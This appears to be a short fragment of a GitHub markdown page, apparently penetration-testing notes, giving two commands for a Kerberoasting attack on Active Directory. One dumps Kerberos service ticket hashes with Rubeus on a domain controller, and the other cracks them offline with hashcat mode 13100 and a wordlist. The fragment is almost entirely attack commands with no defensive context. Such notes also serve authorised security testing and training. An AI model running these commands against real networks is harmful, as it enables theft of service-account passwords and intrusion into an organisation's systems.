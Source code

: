 Run the following in the domain controller, and then copy the hash
```CMD
Rubeus.exe kerberoast
```

Crack the hash using the following command
```Shell
hashcat -a 0 -m 13100 hash.txt Pass.txt
```